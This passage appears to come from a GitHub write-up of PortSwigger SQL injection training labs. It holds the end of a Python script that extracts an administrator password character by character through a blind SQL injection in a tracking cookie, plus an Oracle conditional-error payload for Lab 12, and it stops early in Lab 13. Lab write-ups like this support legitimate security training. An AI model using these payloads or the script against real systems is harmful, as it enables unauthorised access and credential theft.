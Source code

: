 ```python
            cookies = {'TrackingId': 'g1cLmHM7hZM7IhBH' + sqli_payload_encoded, 'session': 't8y3Fw72A2oY8vxzu3o6CyjaBnplydVD'}
            r = requests.get(url, cookies=cookies, verify=False)
            if "Welcome" not in r.text:
                sys.stdout.write('\r' + password_extracted + chr(j))
                sys.stdout.flush()
            else:
                password_extracted += chr(j)
                sys.stdout.write('\r' + password_extracted)
                sys.stdout.flush()
                break

def main():
    if len(sys.argv) != 2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])

    url = sys.argv[1]
    print("(+) Retrieving administrator password...")
    sqli_password(url)

if __name__ == "__main__":
    main()
```
## Lab 12 - Blind SQL injection with conditional errors

This lab contains a [blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability to find out the password of the `administrator` user.

We will use this payload `TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,2,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

Continue this process testing offset 3, 4, and so on, until you have the whole password, we can use the last script but changing the sql_payload, if you have burpsuite professional it will take less time.

## Lab 13 - Blind SQL injection with time delays
This lab contains a [blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.
